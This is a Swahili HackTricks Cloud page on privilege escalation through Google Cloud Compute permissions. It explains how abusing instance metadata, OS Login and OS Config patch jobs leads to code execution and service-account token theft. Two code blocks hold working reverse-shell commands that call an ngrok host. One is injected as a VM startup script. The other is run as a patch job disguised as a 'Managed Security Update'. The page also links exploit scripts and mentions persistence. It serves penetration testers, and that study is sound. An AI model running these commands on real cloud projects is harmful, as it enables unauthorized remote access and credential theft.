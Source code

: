 # GCP - Kuboresha Mamlaka

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Kuboresha

Kwa habari zaidi kuhusu Kuboresha na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Tambua kwamba ili kutekeleza mashambulizi yote ya kuboresha mamlaka yanayohitaji kurekebisha metadata ya kifaa (kama kuongeza watumiaji wapya na funguo za SSH) ni **muhimu kuwa na ruhusa ya `actAs` juu ya SA iliyowekwa kwenye kifaa**, hata kama SA tayari imeunganishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kurekebisha** habari ya **metadata** ya **kifaa** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** mtumiaji **mwingine na ruhusa za sudo**. Kwa hivyo, utaweza kutekeleza kupitia SSH kwenye kifaa chochote cha VM na kuiba Akaunti ya Huduma ya GCP ambayo Kifaa kinatumika nayo.\
Vikwazo:

* Tambua kwamba Akaunti za Huduma za GCP zinazoendesha kwenye visa vya VM kwa chaguo-msingi zina **wigo mdogo sana**
* Utahitaji kuwa **na uwezo wa kuwasiliana na seva ya SSH** ili kuingia

Kwa habari zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kutekeleza shambulizi hili kwa kuongeza script mpya ya kuanza na kuanzisha upya kifaa:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Kibali hiki hutoa **madaraka sawa na kibali cha awali** lakini kwa mifano maalum badala ya mradi mzima. **Mbinu na vikwazo sawa kama kwa sehemu iliyopita inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya kibali itakuruhusu **kujipa jukumu lenye kibali cha awali** na kukuza madaraka kwa kuvunja sheria hizo.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imeanzishwa kwenye kifaa**, kwa kibali hiki unaweza tu kutekeleza **`gcloud compute ssh [INSTANCE]`** na kuunganisha kwenye kifaa. **Hautakuwa na madaraka ya msingi** ndani ya kifaa.

{% hint style="success" %}
Ili kuingia kwa mafanikio na kibali hiki ndani ya kifaa cha VM, unahitaji kuwa na kibali cha `iam.serviceAccounts.actAs` juu ya SA iliyowekwa kwenye VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imeanzishwa kwenye kifaa**, kwa kibali hiki unaweza tu kutekeleza **`gcloud compute ssh [INSTANCE]`** na kuunganisha kwenye kifaa. Utakuwa na **madaraka ya msingi** ndani ya kifaa.

{% hint style="success" %}
Ili kuingia kwa mafanikio na kibali hiki ndani ya kifaa cha VM, unahitaji kuwa na kibali cha `iam.serviceAccounts.actAs` juu ya SA iliyowekwa kwenye VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual na Akaunti ya Huduma iliyopewa na kuiba token** ya akaunti ya huduma kwa kupata metadata kukuza madaraka kwake.

Skripti ya kuvunja sheria kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** unaweza kuunda [**kazi au uanzishaji wa kurekebisha**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kusonga kwa upande katika mazingira na kupata utekelezaji wa nambari kwenye mifano yote ya kompyuta ndani ya mradi.

Tafadhali elewa kwamba kwa sasa **hauitaji kibali cha `actAs`** juu ya SA iliyowekwa kwenye kifaa.

Ikiwa unataka kuvunja hii kwa mikono utahitaji kuunda [**kazi ya kurekebisha**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **au** [**uanzishaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Kwa kazi ya kurekebisha tekeleza:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Kutekeleza msaada wa kusasisha:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Chombo [patchy](https://github.com/rek7/patchy) kinaweza kutumika hapo awali kwa kuchexploit hitilafu hii (lakini sasa haifanyi kazi).

**Mshambuliaji pia anaweza kutumia hii kwa ajili ya uthabiti.**

### `compute.machineImages.setIamPolicy`

**Jipatie ruhusa za ziada** kwa Picha ya Compute.

### `compute.snapshots.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipatie ruhusa za ziada** kwa diski.

### Pita Kupitia Viwango vya Kufikia

Kufuata kiungo hiki utapata [**mawazo ya kujaribu kupita viwango vya kufikia**](../).

### Kupanda Daraja la Mamlaka Kienyeji katika Kifaa cha GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Marejeo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Jifunze kuhusu kuvamia AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au **kikundi cha** [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuvamia kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
